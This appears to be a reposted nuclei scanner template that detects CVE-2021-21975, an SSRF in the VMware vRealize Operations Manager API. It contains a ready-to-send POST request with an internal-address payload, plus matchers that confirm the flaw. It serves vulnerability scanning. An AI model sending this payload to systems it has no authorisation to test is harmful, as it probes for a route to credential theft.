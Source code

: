 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fNpSXGvU-p3O5fZ2gTeimg)

```
id: CVE-2021-21975

info:
  name: vRealize Operations Manager API SSRF (VMWare Operations)
  author: luci
  severity: critical
  description: A malicious actor with network access to the vRealize Operations Manager API can perform a Server Side Request Forgery attack to steal administrative credentials or trigger Remote Code Execution using CVE-2021-21983.
  tags: cve,cve2021,ssrf,vmware
  reference: https://www.vmware.com/security/advisories/VMSA-2021-0004.html

requests:
  - raw:
      - |
        POST /casa/nodes/thumbprints HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json;charset=UTF-8
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
        ["127.0.0.1:443/ui/"]
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "vRealize Operations Manager"
        part: body
      - type: status
        status:
          - 200
```

https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-21975.yaml